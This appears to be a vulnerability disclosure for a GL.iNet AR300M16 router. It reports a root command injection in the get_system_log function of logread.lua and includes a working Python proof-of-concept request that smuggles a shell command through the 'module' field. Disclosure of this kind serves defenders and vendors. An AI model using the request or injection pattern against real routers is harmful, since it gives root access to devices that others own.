


Submission Date: 2025.4.18  
Vendor: GL.iNet  
Product: AR300M16  
Version: 4.3.11   
Firmware: openwrt-ar300m16-4.3.27-0514-1747192506.bin

Download Link: https://dl.gl-inet.cn/router/ar300m16/stable  
Vulnerability: Command Injection in M.get_system_log function
CWE: CWE-78 (OS Command Injection)

The function M.get_system_log in logread.lua handles the moduleparameter without proper sanitization or validation, which leads to a command injection vulnerability. 
The function constructs system commands by directly concatenating user-controlled input into shell commands using string.format, allowing attackers to execute 
arbitrary commands with root privileges.
-- logread.lua (Line 20, 26)
-- Code snippet with command injection
cmd = string.format("logread -e \"%s\" | tail -n %d", module, lines)
cmd = string.format("logread -e \"%s\"", module)


Exploit the vulnerability by sending a carefully constructed HTTP request

```
import requests
import json

# Target URL (Note: the URL needs to be adjusted according to the actual situation)
url = "http://192.168.2.10/rpc"

#Request headers (exactly match the headers in burpsuite)
headers = {
    "Host": "192.168.2.10",
    "Content-Length": "247",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "application/json",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36",
    "Origin": "http://192.168.2.10",
    "Referer": "http://192.168.2.10/",
    "Accept-Encoding": "gzip, deflate, br",
    "Cookie": "Admin-Token=TVNCUwbj4wMF69a8gpn3S5ATeM5ZMd97", #The cookie needs to be modified according to the current admin token
    "Connection": "keep-alive"
}

#Request body (json-rpc command injection payload)
data = {
    "jsonrpc": "2.0",
    "method": "call",
    "params": [
        "TVNCUwbj4wMF69a8gpn3S5ATeM5ZMd97",
        "logread", 
        "get_system_log", 
        {
            "lines": 10,
            "module": "';echo 12345 > /www/pwn.txt;#"
        }
    ]
}

#Send post request
try:
    response = requests.post(
        url,
        headers=headers,
        json=data,
        verify=False  
    )
    

    print(f"状态码: {response.status_code}")
    print("响应头:")
    print(response.headers)
    print("\n响应体:")
    print(response.text)
    
except requests.exceptions.RequestException as e:
    print(f"error: {e}")
```
The exploitation is shown below.

